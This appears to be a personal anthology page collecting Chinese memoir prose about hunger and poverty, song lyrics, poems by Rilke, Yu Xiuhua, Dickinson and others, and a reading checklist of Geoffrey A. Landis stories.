“我想将来我回家的时候，先买两匹驴，一匹你骑着，一匹我骑着……先到我姑姑家，再到我姐姐家……顺便也许看看我的舅舅去……我姐姐很爱我……她出嫁以后，每回来一次就哭一次，姐姐一哭，我也哭……这有七八年不见了！也都老了。”
那地图上的小鱼，红的，黑的，都能够看清，我一边看着，一边听着，这一次我没有打断他，或给他扫一点兴。
“买黑色的驴，挂着铃子，走起来……铛啷啷啷啷啷啷……”他形容着铃音的时候，就象他的嘴里边含着铃子似的在响。
“我带你到沈家台去赶集。那赶集的日子，热闹！驴身上挂着烧酒瓶……我们那边，羊肉非常便宜……羊肉炖片粉……真有味道！唉呀！这有多少年没吃那羊肉啦！”他的眉毛和额头上起着很多皱纹。
我在大镜子里边看了他，他的手从我的手上抽回去，放在他自己的胸上，而后又背着放在枕头下面去，但很快地又抽出来。只理一理他自己的发梢又放在枕头上去。
这失眠大概也许不是因为这个。但买驴子的买驴子，吃咸盐豆的吃咸盐豆，而我呢？坐在驴子上，所去的仍是生疏的地方，我停着的仍然是别人的家乡。
家乡这个观念，在我本不甚切的，但当别人说起来的时候，我也就心慌了！虽然那块土地在没有成为日本的之前，“家”在我就等于没有了。
这失眠一直继续到黎明之前，在高射炮的声中，我也听到了一声声和家乡一样的震抖在原野上的鸡鸣。
破落之街
天明了，白白的阳光空空的染了全室。
秋风是紧了，秋风的凄凉特别在破落之街道上。
苍蝇满集在饭馆的墙壁，一切人忙着吃喝，不闻苍蝇。
在房间里，阳光不落在墙壁上，那是灰色的四面墙，好像匣子，好像笼子，墙壁在逼着我，使我的思想没有用，使我的力量不能与人接触，不能用于世。
我不愿意我的脑浆翻绞，又睡下，拉我的被子，在床上辗转，仿佛是个病人一样，我的肚子叫响，太阳西沉下去，平没有回来。我只吃过一碗玉米粥，那还是清早。
他回来，只是自己回来，不带馒头或别的充饥的东西回来。
肚子越响了，怕给他听着这肚子的呼唤，我把肚子翻向床，压住这呼唤。
泥泞的街道，沿路的屋顶和蜂巢样密挤着，平房屋顶，又生出一层平屋来。那是用板钉成的，看起像是楼房，也闭着窗子，歇着门。**可是生在楼房里的不像人，是些猪猡，是污浊的群。**我们往来都看见这样的景致。**现在街道是泥泞了，肚子是叫唤了！一心要奔到苍蝇堆里，要吃馒头。**桌子的对边那个老头，他唠叨起来了，大概他是个油匠，胡子染着白色，不管衣襟或袖口，都有斑点花色的颜料，他用有颜料的手吃东西。并没能发现他是不讲卫生，因为我们是一道生活。
他嚷了起来，他看一看没有人理他，他升上木凳好像老旗杆样，人们举目看他。终归他不是造反的领袖，那是私事，他的粥碗里面睡着个苍蝇。
大家都笑了，笑他一定在发神经病。
“我是老头子了，你们拿苍蝇喂我！”他一面说，有点伤心。
一直到掌柜的呼唤伙计再给他换一碗粥来，他才从木凳降落下来。但他寂寞着，他的头摇曳着。
这破落之街我们一年没有到过了，我们的生活技术比他们高，和他们不同，我们是从水泥中向外爬。可是他们永远留在那里，那里淹没着他们的一生，也淹没着他们的子子孙孙，但是这要淹没到什么时代呢？
我们也是一条狗，和别的狗一样没有心肝。我们从水泥中自己向外爬，忘记别人，忘记别人。
欧罗巴旅馆
楼梯是那样长，好象让我顺着一条小道爬上天顶。其实只是三层楼，也实在无力了。手扶着楼栏，努力拔着两条颤颤的，不属于我的腿，升上几步，手也开始和腿一般颤。
等我走进那个房间的时候，和受辱的孩子似的偎上床去，用袖口慢慢擦着脸。他——郎华，我的情人，那时候他还是我的情人，他问我了：“你哭了吗？”
“为什么哭呢？我擦的是汗呀，不是眼泪呀！”
那女人动手去收拾：软枕，床单，就连桌布她也从桌子扯下去。床单夹在她的腋下。一切都夹在她的腋下。一秒钟，这洁白的小室跟随她花色的包头巾一同消失去。
我虽然是腿颤，虽然肚子饿得那样空，我也要站起来，打开柳条箱去拿自己的被子。
小室被劫了一样，床上一张肿胀的草褥赤现在那里，破木桌一些黑点和白圈显露出来，大藤椅也好象跟着变了颜色。
晚饭以前，我们就在草褥上吻着抱着过的。
晚饭就在桌子上摆着，黑“列巴”和白盐。
他去追求职业
他是一匹受冻受饿的犬呀！
在楼梯尽端，在过道的那边，他着湿的帽子被墙角隔住，他着湿的鞋子踏过发光的地板，一个一个排着脚踵的印泥。
这还是清早，过道的光线还不充足。可是有的房间门上已经挂好“列巴圈”了！
**送牛奶的人，轻轻带着白色的、发热的瓶子，排在房间的门外。这非常引诱我，好象我已嗅到“列巴圈”的麦香，好象那成串肥胖的圆形的点心，已经挂在我的鼻头了。**几天没有饱食，我是怎样的需要啊！胃口在胸膛里面收缩，没有钱买，让那“列巴圈”们白白在虐待我。
过道渐渐响起来。他们呼唤着茶房，关门开门，倒脸水。外国女人清早便高声说笑。可是我的小室，没有光线，连灰尘都看不见飞扬，静得桌子在墙角欲睡了，藤椅在地板上伴着桌子睡，静得棚顶和天空一般高，一切离得我远远的，一切都厌烦我。
家庭教师
长久的时间静默着，灯光照在两人脸上，也不跳动一下，我说要给他缝缝袖口，明天要买针线。说到袖口，他警觉一般看一下袖口，脸上立刻浮现着幻想，并且嘴唇微微张开，不太自然似的，又不说什么。
关了灯，月光照在窗外，反映得全室微白。两人扯着一张被子，头下破书当做枕头。隔壁手风琴又咿咿呀呀地在诉说生之苦乐。乐器伴着他，他慢慢打开他幽禁的心灵了：
“敏子，……这是敏子姑娘给我缝的。可是过去了，过去了就没有什么意义。我对你说过，那时候我疯狂了。直到最末一次信来，才算结束，结束就是说从那时起她不再给我来信了。这样意外的，相信也不能相信的事情，弄得我昏迷了许多日子……以前许多信都是写着爱我……甚至于说非爱我不可。最末一次信却骂起我来，直到现在我还不相信，可是事实是那样……”
他起来去拿毛衣给我看，“你看过桃色的线……是她缝的……敏子缝的……”
又灭了灯，隔壁的手风琴仍不停止。在说话里边他叫那个名字“敏子，敏子。”都是喉头发着水声。
“很好看的，小眼眉很黑……嘴唇很……很红啊！”说到恰好的时候，在被子里边他紧紧捏了我一下手。我想：我又不是她。
“嘴唇通红通红……啊……”他仍说下去。
马蹄打在街石上嗒嗒响声。每个院落在想象中也都睡去。
提篮者
提篮人，他的大篮子，长形面包，圆面包……每天早晨他带来诱人的麦香，等在过道。
我数着……三个，五个，十个……把所有的铜板给了他。一块黑面包摆在桌子上。郎华回来第一件事，他在面包上掘了一个洞，连帽子也没脱，就嘴里嚼着，又去找白盐。他从外面带进来的冷空气发着腥味。他吃面包，鼻子时时滴下清水滴。
一块黑面包，一角钱。我还要五分钱的“列巴圈”，那人用绳穿起来。我还说：“不用，不用。”我打算就要吃了！我伏在床上，把头抬起来，正象见了桑叶而抬头的蚕一样。
可是，立刻受了打击，我眼看着那人从郎华的手上把面包夺回去，五个“列巴圈”也夺回去。 “明早一起取钱不行吗？”
“不行，昨天那半角也给我吧！”
我充满口涎的舌头向嘴唇舐了几下，不但“列巴圈”没有吃到，把所有的铜板又都带走了。
“早饭吃什么呀？”
“你说吃什么？”锁好门，他回到床上时，冰冷的身子贴住我。
饿
从昨夜到中午，四肢软一点，肚子好象被踢打放了气的皮球。
窗子在墙壁中央，天窗似的，我从窗口升了出去，赤裸裸，完全和日光接近；市街临在我的脚下，直线的，错综着许多角度的楼房，大柱子一般工厂的烟囱，街道横顺交织着，秃光的街树。白云在天空作出各样的曲线，高空的风吹乱我的头发，飘荡我的衣襟。市街象一张繁繁杂杂颜色不清晰的地图，挂在我们眼前。楼顶和树梢都挂住一层稀薄的白霜，整个城市在阳光下闪闪烁烁撒了一层银片。我的衣襟被风拍着作响，我冷了，我孤孤独独的好象站在无人的山顶。每家楼顶的白霜，一刻不是银片了，而是些雪花、冰花，或是什么更严寒的东西在吸我，象全身浴在冰水里一般。
郎华仍不回来，我拿什么来喂肚子呢？桌子可以吃吗？草褥子可以吃吗？
晒着阳光的行人道，来往的行人，小贩乞丐…这一些看得我疲倦了！打着呵欠，从窗口爬下来。
窗子一关起来，立刻生满了霜，过一刻，玻璃片就流着眼泪了！起初是一条条的，后来就大哭了！满脸是泪，好象在行人道上讨饭的母亲的脸。
我坐在小屋，象饿在笼中的鸡一般，只想合起眼睛来静着，默着，但又不是睡。
郎华还没有回来，我应该立刻想到饿，但我完全被青春迷惑了，读书的时候，哪里懂得“饿”？只晓得青春最重要，虽然现在我也并没老，但总觉得青春是过去了！过去了！
我冥想了一个长时期，心浪和海水一般翻了一阵。 追逐实际吧！青春惟有自私的人才系念她，“只有饥寒，没有青春。”
最末的一块木柈
脱掉袜子，腿在被子里面团卷着。想要把自己的脚放到自己肚子上面暖一暖，但是不可能，腿生得太长了，实在感到不便，腿实在是无用。在被子里面也要颤抖似的。窗子上的霜，已经挂得那样厚，并且四壁刷的绿颜色，涂着金边，这一些更使人感到寒冷。两个人的呼吸象冒着烟一般地。玻璃上的霜好象柳絮落到河面，密结的起着绒毛。夜来时也不知道，天明时也不知道，是个没有明暗的幽室，人住在里面，正象菌类生在不见天日的大树下；快要朽了。而人不是菌类。
黑列巴和白盐
玻璃窗子又慢慢结起霜来，不管人和狗经过窗前，都辨认不清楚。
“我们不是新婚吗？”他这话说得很响，他唇下的开水杯起一个小圆波浪。他放下杯子，在黑面包上涂一点白盐送下喉去。大概是面包已不在喉中，他又说：
“这不正是度蜜月吗！”
“对的，对的。”我笑了。
他连忙又取一片黑面包，涂上一点白盐，学着电影上那样度蜜月，把涂盐的“列巴”先送上我的嘴，我咬了一下，而后他才去吃。一定盐太多了，舌尖感到不愉快，他连忙去喝水：
“不行不行，再这样度蜜月，把人咸死了。”
盐毕竟不是奶油，带给人的感觉一点也不甜，一点也不香。我坐在旁边笑。
光线完全不能透进屋来，四面是墙，窗子已经无用，象封闭了的洞门似的，与外界绝对隔离开。天天就生活在这里边。素食，有时候不食，好象传说上要成仙的人在这地方苦修苦炼。很有成绩，修炼得倒是不错了，脸也黄了，骨头也瘦了。我的眼睛越来越扩大，他的颊骨和木块一样突在腮边。
这些工夫都做到，只是还没成仙。
“借钱”，“借钱”，郎华每日出去“借钱”。他借回来的钱总是很少，三角，五角，借到一元，那是很稀有的事。
黑列巴和白盐，许多日子成了我们唯一的生命线。
度日
天色连日阴沉下去，一点光也没有，完全灰色，灰得怎样程度呢？那和墨汁混到水盆中一样。
火炉台擦得很亮了，碗、筷子、小刀摆在格子上。清早起第一件事点起火炉来，而后擦地板，铺床。
炉铁板烧得很热时，我便站到火炉旁烧饭，刀子、匙子弄得很响。炉火在炉腔里起着小的爆炸，饭锅腾着气，葱花炸到油里，发出很香的烹调的气味。我细看葱花在油边滚着，渐渐变黄起来。……小洋刀好象剥着梨皮一样，把地豆刮得很白，很好看，去了皮的地豆呈乳黄色，柔和而有弹力。炉台上铺好一张纸，把地豆再切成薄片。饭已熟，地豆煎好。打开小窗望了望，院心几条小狗在戏耍。
家庭教师还没有下课，菜和米香引我回到炉前再吃两口，用匙子调一下饭，再调一下菜，很忙的样子象在偷吃。 在地板上走了又走，一个钟头的课程还不到吗？于是再打开锅盖吞下几口。再从小窗望一望。我快要吃饱的时候，他才回来。习惯上知道一定是他，他都是在院心大声弄着嗓子响。我藏在门后等他，有时候我不等他寻到，就作着怪声跳出来。
早饭吃完以后，就是洗碗，刷锅，擦炉台，摆好木格子。
假如有表，怕是十一点还多了！
再过三四个钟头，又是烧晚饭。他出去找职业，我在家里烧饭，我在家里等他。火炉台，我开始围着它转走起来。每天吃饭，睡觉，愁柴，愁米……
这一切给我一个印象：这不是孩子时候了，是在过日子，开始过日子。
借
圆月从东边一小片林梢透过来，暗红色的圆月，很大很混浊的样子，好象老人昏花的眼睛，垂到天边去。 脚下的雪不住在滑着，响着，走了许多时候，一个行人没有遇见，来到火车站了！大时钟在暗红色的空中发着光，火车的汽笛震鸣着冰寒的空气，电车，汽车，马车，人力车，车站前忙着这一切。
顺着电车道走，电车响着铃子从我们身边一辆一辆地过去。没有借到钱，电车就上不去。走吧，挨着走，肚痛我也不能说。走在桥上，大概是东行的火车，冒着烟从桥下经过，震得人会耳鸣起来，索链一般的爬向市街去。
从岗上望下来，最远处，商店的红绿电灯不住地闪烁；在夜里的人家好象在烟里一般；若没有灯光从窗子流出来，那么所有的楼房就该变成幽寂的、没有钟声的大教堂了！ 站在岗上望下去，“许公路”的电灯，好象扯在太阳下的长串的黄色铜铃，越远，那些铜铃越增加着密度，渐渐数不过来了！
挨着走，昏昏茫茫地走，什么夜，什么市街，全是阴沟，我们滚在沟中。携着手吧！相牵着走吧！ 天气那样冷，道路那样滑，我时时要滑倒的样子，脚下不稳起来，不自主起来，在一家电影院门前，我终于跌倒了，坐在冰上，因为道上无处不是冰。膝盖的关节一定受了伤害，他虽拉着我，走起来也十分困难。“肚子跌痛了没有？你实在不能走了吧？”
到家把剩下来的一点米煮成稀饭，没有盐，没有油，没有菜，暖一暖肚子算了。
吃饭，肚子仍不能暖，饼干盒子盛了热水，盒子漏了。郎华又拿一个空玻璃瓶要盛热水给我暖肚子，瓶底炸掉下来，满地流着水。他拿起没有底的瓶子当号筒来吹。在那呜呜的响声里边，我躺到冰冷的床上。
春意挂上了树梢
三月花还没有开，人们嗅不到花香，只是马路上融化了积雪的泥泞干起来。天空打起朦胧的多有春意的云彩；暖风和轻纱一般浮动在街道上，院子里。春末了，关外的人们才知道春来。春是来了，街头的白杨树蹿着芽，拖马车的马冒着气，马车夫们的大毡靴也不见了，行人道上外国女人的脚又从长统套鞋里显现出来。笑声，见面打招呼声，又复活在行人道上。商店为着快快地传播春天的感觉，橱窗里的花已经开了，草也绿了，那是布置着公园的夏景。
这样好的行人道，有树，也有椅子，坐在椅子上，把眼睛闭起，一切春的梦，春的谜，春的暖力……这一切把自己完全陷进去。听着，听着吧！春在歌唱……
有谁还记得冬天？阳光这样暖了！街树穿着芽！
手风琴在隔道唱起来，这也不是春天的调子，只要一看那个瞎人为着拉琴而扭歪的头，就觉得很残忍。瞎人他摸不到春天，他没有。坏了腿的人，他走不到春天，他有腿也等于无腿。世界上这一些不幸的人，存在着也等于不存在，倒不如赶早把他们消灭掉，免得在春天他们会唱这样难听的歌。
中央大街的南端，人渐渐稀疏了。
墙根，转角，都发现着哀哭，老头子，孩子，母亲们……哀哭着的是永久被人间遗弃的人们！那边，还望得见那边快乐的人群。还听得见那边快乐的声音。
三月，花还没有，人们嗅不到花香。
夜的街，树枝上嫩绿的芽子看不见，是冬天吧？是秋天吧？但快乐的人们，不问四季总是快乐；哀哭的人们，不问四季也总是哀哭！
Lyrics Quotes
Misc
Hurt
Johnny Cash
Link to song (YouTube Official Music Video)
I hurt myself today
To see if I still feel
I focus on the pain
The only thing that's real
The needle tears a hole
The old familiar sting
Try to kill it all away
But I remember everything
What have I become?
My sweetest friend
Everyone I know goes away
In the end
And you could have it all
My empire of dirt
I will let you down
I will make you hurt
I wear this crown of thorns
Upon my liar's chair
Full of broken thoughts
I cannot repair
Beneath the stains of time
The feelings disappear
You are someone else
I'm still right here
Ghost Towns
Radical Faces
Link to song (YouTube Official Music Video)
I've got no need for open roads
'Cause all I own fits on my back
I see the world from rusted trains
And always know I won't be back
'Cause all my life is wrapped up in today
No past or future here
If I find my name's no good
I just fall out of line
But I miss you
But there's comin' home
There's no comin' home
With a name like mine
I still think of you
But everyone knows
Yeah everyone knows
If you care, let it go
I've seen more places than I can name
And over time they all start to look the same
But it ain't that truth we chase
No, it's the promise of a better place
But all this time, I been chasin' down a lie
And I know it for what it is
But it beats the alternatives
So I'll take the lie
I still miss you
There's no goin' home
There's no goin' home
With a name like mine
I still dream of you
But everyone knows
Yeah everyone knows
If you can, let it go
Chasing the Wind
Josiah James
I see love is real,
it stares me straight in the eyes and tells me how to feel, inside.
You looked into my heart
and you saw that it was true so tell me where to start this love, this love.
I'm running fast.
I'm trying to reach You.
I'm pushing all the things that are in my way.
And they don't really know what You mean to me.
No I'm not just chasing the wind.
The storm is ragin' in.
This is not as simple as it was back when.
When I was close to You and everything made sense.
Now I am running back again.
I am.
Yes, I am.
I am.
I'm running fast.
I'm trying to reach You.
I'm pushing all the things that are in my way.
And they don't really know what You mean to me.
No I'm not just chasing the wind.
And how did I ever get here?
Where do I stop?
Where do I end?
But here I am and here I'll stay.
Why do I fall short of love?
Chasing things that don't fill me up.
But you are love, and you are true.
I'm running fast.
I'm trying to reach You.
I'm pushing all the things that are in my way.
And they don't really know what You mean to me.
No I'm not just chasing the wind.
I'm running fast.
I'm trying to reach You.
I'm pushing all the things that are in my way.
And they don't really know what You mean to me.
No I'm not just chasing the wind.
Poetry Excerpts
里尔克
余秀华
Misc
盲女
里尔克
陌生人
你不怕谈到它么？
盲女
不怕
它很久远了。那是另一个女人。
她当时看得见，她大喊大叫、
东张西望地活过
她死了
陌生人
可死得很艰难吧
盲女
死亡对于不知不觉者是残忍
得放坚强些。即使陌生者死了
陌生人
她对你陌生么
盲女
---不如说她曾经陌生过
死亡甚至使母亲和孩子疏远。---
可头几天很可怕
我遍体鳞伤。世界，
现在在事物中盛开而又成熟
当时却从我身上连根拔起
连我的心一起（我觉得），我袒露着
躺在那儿如被掘开的土地饮着
我的泪水的冷雨
它从死去的眼睛不停地
潸然流出如从荒凉的天空
这时上帝死了 乌云降落下来
而我的听觉却是巨大的，向一切开放
我听见了听不见的事物：
从我的头发上面流过的时间
在脆玻璃上玎玲作响的寂静
还感觉到：一朵大白玫瑰的气息
飘近了我的双手
我一再想到：除了夜，还是夜
并相信看见一条亮光
将象白昼一样扩张开来
相信自己会走向久已
捧在我双手中的早晨
睡眠从我模糊的脸庞
沉滞地滑落。我唤醒了母亲
我对她喊道：“你，来吧！
快点亮！”
于是倾听。久而久之，寂静无声
我觉得我的枕头变成了石头，----
后来我仿佛看见什么在发亮
原来那是母亲的悲泣
我再也不愿想到的悲泣
快点亮！快点亮！我常在梦中这样呼喊
空间已经倒塌！快从我的脸
我的胸把空间抓住。
你必须举起它，高高举起它
必须把星星重新交给它
我不能这样生活，让天空在我头上
可我是在对你说话么，母亲？
要不，是对谁呢？那么谁在后面？
谁在帷幕后面？----是冬天？
母亲：是暴风雨？母亲：是夜？说吧！
要不，就是白天？……白天！
可没有我！怎么能白天没有我？
是不是我在哪儿都碍事？
是不是谁也不再关心我？
是不是我们完全被人忘记？
我们？……可你却还正在那儿
你还有一切，可不是？
还有一切在照顾你的视力
使它感觉舒坦
如果你的眼睛垂下去
如果它们很疲倦
它们还会重新抬起来
……我的眼睛却沉默了
我的花将失去色泽
我的镜子将冻结成冰
我的书里的字行将模糊不清
我的鸟将在胡同里四下飞扑
并在陌生的窗口受伤
什么也不再和我相干
我已为一切所抛弃。---
我是一个岛。
陌生人
可我已跨海而来
盲女
怎么？来到岛上？……来到这儿？
陌生人
我还在小船上。
我把它轻轻靠拢
你。它在动荡：
它的旗子在向陆地飘
盲女
我是一个岛，我孤单
我富有。----
首先，许多旧路还在
我的神经里，由于多次
使用而损坏：
我也就因此而受苦
一切从我的心中离去
我先不知道去向哪儿
但我随即发现它们都在那里
我所有过的一切感觉
集合起来停顿着，拥挤着，呼喊着
面对用墙堵住的，一动不动的眼睛
我所有的被引诱的一切感觉……
我不知道多年来它们是否这样停顿着
但我知道几个星期以来
它们已支离破碎地回来了
什么人也不认得
接着道路伸展到了眼前
我再也不知道它
现在一切在我身上走来走去
确信而自在；感觉象久病初复者
走着，享受着行走
走过我的肉体这座暗屋
有些人是记忆
的读者
但年轻人
都向外望去
因为他们在我旁边所步住的地方
正是我的玻璃衣服
我的额头看得见，我的双手读着
别人手里的诗
我的脚用它踩的石头说话
我的声音从日常的墙壁
带走了每只鸟
如今我已不再置身事外，
一切色彩皆已化入
声音与气味。
生如曲调般绝地
鸣响，
我何必需要书本呢？
风翻动树叶，
我知晓它们的话语，
并时而柔声复诵。
而那将眼睛如花般摘下的死亡，
将无法企及我的双眸……
陌生人（轻声）
我知道
穿过大半个中国去睡你
余秀华
其实，睡你和被你睡是差不多的，无非是
两具肉体碰撞的力，无非是这力催开的花朵
无非是这花朵虚拟出的春天让我们误以为生命被重新打开
大半个中国，什么都在发生：火山在喷，河流在枯
一些不被关心的政治犯和流民
一路在枪口的麋鹿和丹顶鹤
我是穿过枪林弹雨去睡你
我是把无数的黑夜摁进一个黎明去睡你
我是无数个我奔跑成一个我去睡你
当然我也会被一些蝴蝶带入歧途
把一些赞美当成春天
把一个和横店类似的村庄当成故乡
而它们
都是我去睡你必不可少的理由
阿乐，你又不幸地被我想起
余秀华
我不敢把我的心给你
怕我一想你，你就疼
我不能把我的眼给你
怕我一哭，你就流泪
我无法把我的命给你
因为我一死去，你也会消逝
我要了你身后的位置
当我看你时，你看不见我
我要了你夜晚的影子
当我叫你时，你就听不见
我要下了你的暮年
从现在开始酿酒
你没有看见我被遮蔽的部分
余秀华
春天的时候，我举出花朵，火焰，悬崖上的树冠
但是雨里依然有寂寞的呼声，钝器般捶打在向晚的云朵
总是来不及爱，就已经深陷。你的名字被我咬出血
却没有打开幽暗的封印
那些轻省的部分让我停留：美人蕉，黑蝴蝶，水里的倒影
我说：你好，你们好。请接受我躬身一鞠的爱
但是我一直没有被迷惑，从来没有
如同河流，在最深的夜里也知道明天的去向
但是最后我依旧无法原谅自己，把你保留得如此完整
那些假象你还是不知道的好啊
需要多少人间灰尘才能掩盖住一个女子
血肉模糊却依然发出光芒的情意
Had I Not Seen The Sun
Emily Dickinson
Had I not seen the Sun
I could have borne the shade
But Light a newer Wilderness
My Wilderness has made—
OCD
Neil Hilborn
本诗被用作 Rous - H.E.R 的人声采样
When she said she loved me her mouth was a straight line,
She told me that I was taking up too much of her time
Last week she started sleeping at her mother's place
She told me that she shouldn't have let me get so attached to her;
that this whole thing was a mistake, but...
How can it be a mistake that i don't have to wash my hands after I touched her?
Love is not a mistake, and it's killing me that she can run away from this and I just can't,
I can't — I can't go out and find someone new because I always think of her,
Usually, when I obsess over things, I see germs sneaking into my skin.
I see myself crushed by an endless succession of cars...
And she was the first beautiful thing I ever got stuck on.
I want to wake up every morning, thinking about the way she holds her steering wheel...
How she turns shower knobs like she's opening a safe.
How she blows out candles—
blows out candles—
blows out candles—
blows out candles—
blows out candles—
blows out...
Now, I just think about who else is kissing her,
I can't breathe because he only kisses her once — he doesn't care if it is perfect
I want her back, so bad...
I leave the door unlocked.
I leave the lights on.
路人
西贝
不知为何，明明想和你说话。
却骗你说，风雨正好，该去写点诗句。
不必嘲讽我，你笑出声来，
我也当是天籁。
不必怀有敌意，你所有心计，
我都当是你对我的心意。
我的宿命分为两段，
未遇见你时，和遇见你以后。
你治好我的忧郁，而后赐我悲伤。
忧郁和悲伤之间的片刻欢喜，
透支了我生命全部的热情储蓄。
想饮一些酒，让灵魂失重，好被风吹走。
可一想到终将是你的路人，
便觉得，沦为整个世界的路人。
风虽大，都绕过我灵魂。
Geoffrey A. Landis short fictions
List scraped from CSFDB.
Online reading resources are most from 九九藏书网 (Chinese), 月光博客 (Chinese) , chinasf(Chinese)
Collection: 冲击参数
Struggled to find proper eBook resources :(
| title | english title | read? |
|---|---|---|
| 邂逅 | ? | |
| 四元素 | Elemental | |
| 恐龙 | Dinosaurs | |
| 真空态 | Vacuum States | ✅ |
| 空中的大海 | The River of Air, the Ocean of Sky | |
| 狄拉克海上的涟漪 | Ripples in the Dirac Sea | ✅ |
| 追赶太阳 | A Walk in the Sun | ✅ |
| 时空的插曲 | Interlude at the Circus | |
| 冲击参数 | Impact Parameter | ✅ |
| 拥抱异类 | Embracing the Alien | |
| 在冬天的星星下 | Beneath the Stars of Winter | |
| 黄蜂的奇特习性 | The Singular Habits of Wasps | |
| 我们在国家航空航天局干什么 | What We Really Do Here at NASA | |
| 初始时间 | Time Prime | |
| 罗尔维克的战争 | Rorvik's War | |
| 穿过黑暗 | Across the Darkness | |
| 黑妇人 | Dark Lady | |
| 最后的日落 | The Last Sunset | |
| 车轮上的死亡较量 | Hot Death on Wheels | |
| 自噬自生蛇 | Ouroboros | |
| 生态形成 | Ecopoiesis | ✅ |
| 冬天的炮火 | Winter Fire | |
| 雪 | Snow | |
| 逼近黑斑 | Approaching Perimelasma | |
| 遭遇太空海盗 | Outsider's Chance | |
| 进入蓝色深渊 | Into the Blue Abyss | |
| 漫长的追捕 | The Long Chase | ✅ |
| 坠落火星 | Falling Onto Mars | ✅ |
| 剑鱼座故事 | At Dorado | ✅ |
| 懒汉泰克斯 | Lazy Taekos | |
| 镜中人 | The Man in the Mirror | ✅ |
| 云城之主 | The Sultan of the Clouds | |
| 南极酒店 | A Hotel in Antarctica |